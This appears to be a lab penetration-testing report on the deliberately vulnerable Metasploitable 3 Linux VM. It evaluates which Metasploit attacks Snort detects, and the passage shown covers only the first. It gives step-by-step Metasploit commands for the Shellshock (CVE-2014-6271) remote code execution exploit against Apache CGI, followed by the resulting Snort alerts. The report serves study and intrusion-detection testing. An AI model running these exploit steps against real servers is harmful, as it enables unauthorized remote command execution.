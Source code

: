 # Penetration Testing Report on Metasploitable 3 (Linux)

## Introduction

This report details the penetration testing performed on the [Metasploitable 3 (Linux)](https://github.com/rapid7/metasploitable3) operating system using [Metasploit](https://www.metasploit.com/). Five different attacks were carried out, with three being identifiable by the [Snort](https://www.snort.org/) Intrusion Detection System (IDS) and two going undetected. The report provides a brief description of each attack, including the targeted component, execution method, and Snort output for detected attacks. Additionally, it includes an essay on the benefits and shortcomings of using intrusion detection systems.

## IDENTIFIED ATTACK 1: Apache HTTP Server RCE

### Description

**Component Targeted:** Shellshock Bash Vulnerability / Apache web server with CGI scripts

**Execution Method:** This attack exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. It targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition. [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /cgi-bin/hello_world.sh`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2025869:2] ET WEB_SPECIFIC_APPS ELF file magic plain Inbound Web Servers Likely Command Execution 12 [**] [Classification: Attempted User Privilege Gain]          [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80      
[**] [1:1336:5] WEB-ATTACKS chmod command attempt [**]                                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                                            
[**] [1:100000122:1] COMMUNITY WEB-MISC mod_jrun overflow attempt [**]                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                            
[**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**]                                              [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:56643 -> 172.28.128.3:80 
```

